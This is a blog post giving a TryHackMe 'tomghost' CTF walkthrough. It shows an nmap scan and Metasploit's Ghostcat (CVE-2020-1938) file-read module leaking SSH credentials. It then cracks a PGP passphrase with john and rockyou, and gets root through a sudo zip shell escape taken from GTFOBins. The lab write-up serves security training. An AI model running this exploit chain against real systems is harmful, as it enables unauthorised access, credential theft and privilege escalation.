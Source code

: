 ```yaml
---
layout: post
title:  "THM Write-Up tomghost"
summary: Write-Up to the TryHackMe Machine tomghost
author: utnelson
date: '2022-02-10 10:35:23 +0530'
category: ['thm','write-up', 'easy']
thumbnail: /assets/img/posts/ghost_title.png
keywords: ghostcat, thm, box, easy, write-up, walkthrough
permalink: /blog/write-up-ghostcat/
---
```

Machine: [https://tryhackme.com/room/tomghost](https://tryhackme.com/room/tomghost)
## Enumeration

```console
root@machine:~$ nmap -sC -sV 10.10.114.227
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-10 12:55 CET
Nmap scan report for localhost (10.10.114.227)
Host is up (0.044s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.93 seconds
```

Nothing special on the website. So I inspected the `8009/tcp` port with `Apache Jserv (Protocol v1.3)`.  

After a short google session i found a exploit [CVE-2020-1938](https://www.exploit-db.com/exploits/48143).

Let's run metasploit for that:

```console
                                                  
 _                                                    _
/ \    /\         __                         _   __  /_/ __
| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \
| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|
|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_
      |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\


       =[ metasploit v6.1.27-dev                          ]
+ -- --=[ 2196 exploits - 1162 auxiliary - 400 post       ]
+ -- --=[ 596 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: View missing module options with show 
missing

msf6 > search ghostcat

Matching Modules
================

   #  Name                                  Disclosure Date  Rank    Check  Description
   -  ----                                  ---------------  ----    -----  -----------
   0  auxiliary/admin/http/tomcat_ghostcat  2020-02-20       normal  Yes    Apache Tomcat AJP File Read


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/admin/http/tomcat_ghostcat

msf6 > use 0
msf6 auxiliary(admin/http/tomcat_ghostcat) > options

Module options (auxiliary/admin/http/tomcat_ghostcat):

   Name      Current Setting   Required  Description
   ----      ---------------   --------  -----------
   AJP_PORT  8009              no        The Apache JServ Protocol (AJP) port
   FILENAME  /WEB-INF/web.xml  yes       File name
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT     8080              yes       The Apache Tomcat webserver port (TCP)
   SSL       false             yes       SSL

```

Only insert the `RHOSTS` with the target IP. And `run` it.  

```console
Result:
...
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
	skyfuck:{secret password}
  </description>

</web-app>
...
```

Nice. we found some creds `skyfuck:{secret password}`
## Foothold

ssh into the machine
```console
root@machine:~$ ssh skyfuck@10.10.114.227
The authenticity of host '10.10.114.227 (10.10.114.227)' can't be established.
ECDSA key fingerprint is SHA256:hNxvmz+AG4q06z8p74FfXZldHr0HJsaa1FBXSoTlnss.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.114.227' (ECDSA) to the list of known hosts.
skyfuck@10.10.114.227's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

skyfuck@ubuntu:~$
```

```console
skyfuck@ubuntu:~$ ls -la
total 928
drwxr-xr-x 4 skyfuck skyfuck   4096 Feb 10 04:19 .
drwxr-xr-x 4 root    root      4096 Mar 10  2020 ..
-rw------- 1 skyfuck skyfuck    136 Mar 10  2020 .bash_history
-rw-r--r-- 1 skyfuck skyfuck    220 Mar 10  2020 .bash_logout
-rw-r--r-- 1 skyfuck skyfuck   3771 Mar 10  2020 .bashrc
drwx------ 2 skyfuck skyfuck   4096 Feb 10 04:08 .cache
drwx------ 2 skyfuck skyfuck   4096 Feb 10 04:19 .gnupg
-rw-r--r-- 1 skyfuck skyfuck    655 Mar 10  2020 .profile
-rw-rw-r-- 1 skyfuck skyfuck    394 Mar 10  2020 credential.pgp
-rw-rw-r-- 1 skyfuck skyfuck 136707 Feb 10 04:20 ghostcat.txt
-rwxrwxr-x 1 skyfuck skyfuck 764159 Feb 10 01:48 linpeas.sh
-rw-rw-r-- 1 skyfuck skyfuck   5144 Mar 10  2020 tryhackme.asc
```

in the home dir are two interesting looking file `tryhackme.asc` and `credential.pgp`. Download the to your local machine.  

Run `gpg2john` for getting the hash. And crack the passphrase with the wordlist `rockyou.txt`

```console
root@machine:~$ gpg2john tryhackme.asc > hash

File tryhackme.asc

root@machine:~$ john --wordlist=/usr/share/wordlists/rockyou.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
{secret password}        (tryhackme)
1g 0:00:00:00 DONE (2022-02-10 13:39) 6.666g/s 7146p/s 7146c/s 7146C/s {secret password}
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
Nice it worked. So You can decrypt the `credential.pgp` with that.  
Import the key with inserting the found passphrase.
```console
root@machine:~$ gpg --import tryhackme.asc 
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: key 8F3DA3DEC6707170: secret key imported
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:              unchanged: 2
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
```
Decrypt the text.
```console
root@machine:~$ gpg --output ./plaintext.txt --decrypt ./credential.pgp 
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"

root@machine:~$ cat plaintext.txt 
merlin:{secret password}    
```
Nice new Creds for the user `merlin`  
Let's change to him.

```console
skyfuck@ubuntu:~$ su merlin
Password: 
merlin@ubuntu:/home/skyfuck$ 
```
Change to home directory and there we go our `user.txt`

## Prev Escalation

First we check if there are any sudo commands we can execute. 
```console
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

Quick look at [GTFOBins](https://gtfobins.github.io/gtfobins/zip/)

Run the following code:

```console
merlin@ubuntu:~$ TF=$(mktemp -u)
merlin@ubuntu:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# id
uid=0(root) gid=0(root) groups=0(root)
```

Boom! We got root. Cat the `root.txt` and you are done.


